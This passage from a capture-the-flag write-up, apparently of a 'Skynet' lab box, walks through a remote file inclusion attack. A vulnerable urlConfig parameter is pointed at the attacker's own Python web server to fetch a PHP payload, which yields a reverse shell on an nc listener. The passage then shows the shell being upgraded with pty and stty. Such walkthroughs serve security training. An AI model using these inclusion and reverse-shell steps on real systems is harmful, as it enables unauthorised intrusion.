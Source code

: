 `python3 -m http.server 80`

I then use the vulnerable URL we used above but point it to my webserver and file:

```
http://10.10.38.143/<REDACTED>/administrator/alerts/alertConfigField.php?urlConfig=http://10.6.0.242/p.php
```

And my server shows the webserver reaching out to my server and getting the file:

```
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.38.143 - - [27/Oct/2022 21:41:07] "GET /p.php HTTP/1.0" 200 -
```

<br>

## System Access

And finally the listener catches the reverse shell:

```
listening on [any] 4444 ...
connect to [10.6.0.242] from (UNKNOWN) [10.10.38.143] 54566
Linux skynet 4.8.0-58-generic #63~16.04.1-Ubuntu SMP Mon Jun 26 18:08:51 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
 20:42:43 up  1:45,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
bash: cannot set terminal process group (1259): Inappropriate ioctl for device
bash: no job control in this shell
www-data@skynet:/$
```

And we're in! Fixing my shell:

```
www-data@skynet:/$ which python3
which python3
/usr/bin/python3
www-data@skynet:/$ python3 -c 'import pty;pty.spawn("/bin/bash")'
python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@skynet:/$ ^Z
zsh: suspended  nc -nvlp 4444
                                                                                                        
┌──(kali㉿kali)-[~]
└─$ stty raw -echo; fg
[1]  + continued  nc -nvlp 4444

www-data@skynet:/$ export TERM=xterm-256color
```

<br>

## System Enumeration
